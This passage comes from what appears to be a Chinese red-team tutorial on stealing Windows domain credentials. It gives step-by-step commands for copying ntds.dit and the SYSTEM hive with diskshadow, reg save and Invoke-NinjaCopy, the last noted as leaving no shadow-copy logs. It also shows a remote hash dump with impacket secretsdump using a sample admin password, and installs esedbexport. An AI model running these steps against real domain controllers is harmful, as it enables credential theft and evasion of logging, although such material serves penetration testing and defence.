 使用 diskshadow 调用刚才的文本文件

```
diskshadow /s C:\command.txt
```

因为 system.hive 里存放着 ntds.dit 的秘钥，所以需要转储 system.hive ，不然没法查看 ntds.dit 里内容

```
reg save hklm\system c:\windows\temp\system.hive
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/20210908155944.png)

### Invoke-NinjaCopy.ps1

PowerSploit 工具包里的 Invoke-NinjaCopy.ps1 脚本也可以提取 ntds.dit 文件，这种方法没有调用 Volume Shadow Copy 服务，所以不会产生日志文件

PowerSploit 工具包项目地址：[https://github.com/PowerShellMafia/PowerSploit](https://github.com/PowerShellMafia/PowerSploit)

```
Import-Module .\Invoke-NinjaCopy.ps1
Invoke-NinjaCopy -Path "C:\windows\ntds\ntds.dit" -LocalDestination "C:\ntds.dit"
```

### impacket

impacket 安装

```
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket
python3 setup.py install
```

通过 impacket  里的 secretsdump.py 脚本可以直接远程读取 ntds.dit 并导出哈希值

```
cd ./build/scripts-3.9
python3 secretsdump.py teamssix.com/administrator:1qaz@WSX@192.168.7.7 -outputfile output_ntds
```

## 2、导出 ntds.dit 文件中的散列值

### esedbexport

安装 esedbexport，以 Kali 为例

```
apt-get install autoconf automake autopoint libtool pkg-config
wget https://github.com/libyal/libesedb/releases/download/20210424/libesedb-experimental-20210424.tar.gz
tar zxvf libesedb-experimental-20210424.tar.gz
cd libesedb-20210424
./configure
make
make install
ldconfig
```
